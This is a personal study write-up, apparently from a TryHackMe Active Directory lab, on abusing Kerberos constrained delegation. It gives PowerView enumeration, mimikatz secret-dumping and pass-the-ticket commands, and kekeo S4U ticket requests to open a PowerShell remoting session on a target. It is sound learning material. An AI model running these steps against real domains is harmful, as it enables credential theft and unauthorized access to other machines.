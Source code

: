 # Kerberos delegation

> Note that "Kerberos delegation" and "Permission delegation" are 2 different terms. When "AD delegation" is mentioned, it usually refers to "Kerberos delegation".

## Resources

1. **Constrained delegation abuse**

{% embed url="https://docs.specterops.io/ghostpack/rubeus/constrained-delegation-abuse" %}

2. **PowerShell remoting**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5" %}

3. **PowerView**

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}



## Important notice

The examples shown below uses the [kekeo](https://github.com/gentilkiwi/kekeo) tool, which is not maintained anymore and may not work as expected. However, the command examples are used to illustrate the basic workflow of the process in a lab environment ([TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room), along with explanations based on my understanding.

[Rubeus](https://github.com/GhostPack/Rubeus) is a tool that is heavily adapted from the _kekeo_ project, and provides similar functionalities. For all the commands shown in kekeo, I aim to provide the equivalent commands; in terms of functionality, in Rubeus.

## Constrained vs Unconstrained delegation

1. **Unconstrained**&#x20;

* service accounts have no limits on the delegation
* this means that they are able to access any services



2. **Constrained**&#x20;

* service accounts can only be delegated to certain specified services
* this means that they can only access certain controlled services

## Exploitation steps

#### Step 1

Given that we have breached a machine, and gained administrative access, we can first try to retrieve credentials of any service accounts that are present on the current host. To achieve this, we can use cmdlets from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):&#x20;

```powershell
PS C:\> Import-Module C:\dir\to\PowerSploit\PowerView.ps1
PS C:\> Get-NetUser -TrustedToAuth
```

Next, we can use **mimikatz** to dump the secrets:

```powershell
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

#### Step 2

Now that we have the secrets (password), we can use it to retrieve the _Ticket Granting Ticket_ (TGT). Next, we can generate the _Ticket Granting Service_ (TGS) for a particular service that our identified service account (step 1) can delegate.

{% code overflow="wrap" %}
```powershell
kekeo # tgt::ask /user:<username> /domain:<domain> /password:<password>

C:\> rubeus.exe s4u ... 
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>

C:\> rubeus.exe ... 
```
{% endcode %}

#### Step 3

Now that we have retrieved the _Ticket Granting Service_ (TGS) for our desired service, we can use it to perform a _Pass-the-Ticket_ attack, which will allow us to authenticate to the service we have identified earlier.

{% code overflow="wrap" %}
```powershell
mimikatz # privilege debug
mimikatz # kerberos::ptt ...
mimikatz # exit
```
{% endcode %}

#### Exploiting PowerShell remoting

According to the [TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room, [PowerShell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5) uses the HTTP and WSMAN services as well. This means that we can use the TGT we have retrieved to create TGS for both HTTP and WSMAN, before performing a _Pass-the-Ticket_ attack, which will allow us to gain a remote session on a target machine.

> Note that we have to generate the TGS for both the HTTP and WSMAN services

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:http/<target>
Ticket in file 'TGS_http_xxxx'

kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:wsman/<target>
Ticket in file 'TGS_wsman_xxxx'
```
{% endcode %}

Perform _Pass-the-Ticket_ with the newly created **TGS**:

```powershell
mimikatz # kerberos::ptt TGS_http_xxxx
mimikatz # kerberos::ptt TGS_wsman_xxx

mimikatz # exit
```

> Refer to the "PowerShell remoting" resource in the Resources section above

{% code overflow="wrap" %}
```powershell
PS C:\> New-PSSession -ComputerName <computer_name>
...

PS C:\> Enter-PSSession -ComputerName <computer_name>
[xxxx]: PS C:\Users\<username> whoami
user_xxx
```
{% endcode %}


